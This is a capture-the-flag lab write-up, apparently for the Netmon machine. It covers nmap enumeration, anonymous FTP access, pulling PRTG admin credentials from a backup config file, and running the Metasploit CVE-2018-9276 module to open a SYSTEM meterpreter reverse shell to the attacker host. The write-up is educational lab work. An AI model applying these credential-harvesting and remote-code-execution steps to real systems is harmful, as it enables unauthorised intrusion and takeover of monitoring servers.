


# Enumeration
Scan ports to detect opening ones and services by nmap:
```
nmap -sV -A -Pn -T4 <Target IP Address>
```

We can find that 21/tcp and 80/tcp are opened:
```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2022-10-23 01:00 EDT
Nmap scan report for 10.129.96.142
Host is up (0.40s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst:
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-10-23T05:00:50
|_  start_date: 2022-10-23T04:23:31

```

As this result, we can get the following information:

- We can log in as the an anonymous user via FTP, 21/tcp
- PRTG/18.1.37 is running as http server in 80/tcp

# Get user flag
## FTP
Log in as the anonymous user to the target machine:
```
└─$ ftp 10.129.96.142                                              148 ⨯ 2 ⚙
Connected to 10.129.96.142.
220 Microsoft FTP Service
Name (10.129.96.142:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.

```
, and we can find user.txt on "C:/Users/Public/"
```
ftp> pwd
257 "/Users/Public" is current directory.
ftp> ls
227 Entering Passive Mode (10,129,96,142,198,129).
150 Opening ASCII mode data connection.
02-03-19  08:05AM       <DIR>          Documents
07-16-16  09:18AM       <DIR>          Downloads
07-16-16  09:18AM       <DIR>          Music
07-16-16  09:18AM       <DIR>          Pictures
10-23-22  12:24AM                   34 user.txt
07-16-16  09:18AM       <DIR>          Videos
226 Transfer complete.

```

The user.txt contains the user flag.
```
┌──(kali㉿kali)-[~]
└─$ cat user.txt
1073*************
```

## Get root flag
### Get credentials
As the result of nmap, PRTG 18.1.37 is running.
This version has an RCE vulnerability, called CVE-2018-9276 (PRTG Network Monitor Authenticated RCE), which requires authentication.

We can access the following webpage including the login form.
I tried to log in by default credentials (prtgadmin/prtgadmin), however failed to log in.


I googled write-ups because I had no idea to log in to PRTG.  
In this write-up [1], it turns out that I should have guess that the credentials are defined in the configuration file.  

I googled the location of the configuration file, then I find this post, which shows the configuration file is located in:
```
%programdata%\Paessler\PRTG Network Monitor
```
https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data

We can download the configuration file and the backup one via FTP, as follows:
```
257 "/Programdata/Paessler/PRTG Network Monitor" is current directory.
ftp> ls
200 PORT command successful.
150 Opening ASCII mode data connection.
12-15-21  08:23AM       <DIR>          Configuration Auto-Backups
10-23-22  12:34AM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
10-23-22  12:34AM       <DIR>          Logs (Web Server)
10-23-22  12:29AM       <DIR>          Monitoring Database
02-25-19  10:54PM              1189697 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
10-23-22  03:53AM              1713431 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
```

Search credentials in the file.
```
┌──(kali㉿kali)-[~]
└─$ grep -B5 -A5 password ./PRTG\ Configuration.old.bak | sed 's/ //g' |  sort -u | less
```

We can find the string that can be guessed as a password.
```
<proxyport>
        PrTg@dmin2018
PRTGSystemAdministrator
<retrysnmp>
        <!--User:prtgadmin-->
</wbemprotocol>
```

Check the file.
```
<dbpassword>
    <!-- User: prtgadmin -->
    PrTg@dmin2018
</dbpassword>
```

However, we cannot log in to PRTG with this credential (prtgadmin / PrTg@dmin2018).   
I confirmed the write-up [1] again, and it turns out that I should have guessed that the password would be changed annually.  
Following this information, we can log in to PRTG with the credential (prtgadmin / PrTg@dmin201**9**).



### Exploits CVE-2018-9276
Let's try to exploit CVE-2018-9276.
We can use metasploit module for CVE-2018-9276.  
https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/windows/http/prtg_authenticated_rce
```
use exploit/windows/http/prtg_authenticated_rce
```

Set the following options:
```
msf6 exploit(windows/http/prtg_authenticated_rce) > show options

Module options (exploit/windows/http/prtg_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   ADMIN_PASSWORD  PrTg@dmin2019    yes       The password for the specified username
   ADMIN_USERNAME  prtgadmin        yes       The username to authenticate as
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          10.129.96.142    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   VHOST           tun0             no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


```
Exploit, and get shell.

```
msf6 exploit(windows/http/prtg_authenticated_rce) > exploit

[*] Started reverse TCP handler on 10.10.16.13:4444
[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=2021)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
[*] Sending stage (175174 bytes) to 10.129.96.142
[*] Meterpreter session 2 opened (10.10.16.13:4444 -> 10.129.96.142:52616) at 2022-10-23 05:01:21 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : NETMON
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

Find root.txt in C:\Users\Administrator\Desktop.
```
meterpreter > pwd
C:\Users\Administrator\Desktop
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-02-03 07:08:38 -0500  desktop.ini
100444/r--r--r--  34    fil   2019-02-02 23:35:23 -0500  root.txt
```

This file contains the root flag.
```
┌──(kali㉿kali)-[~]
└─$ cat root.txt                                                         1 ⨯
bf7**************
```
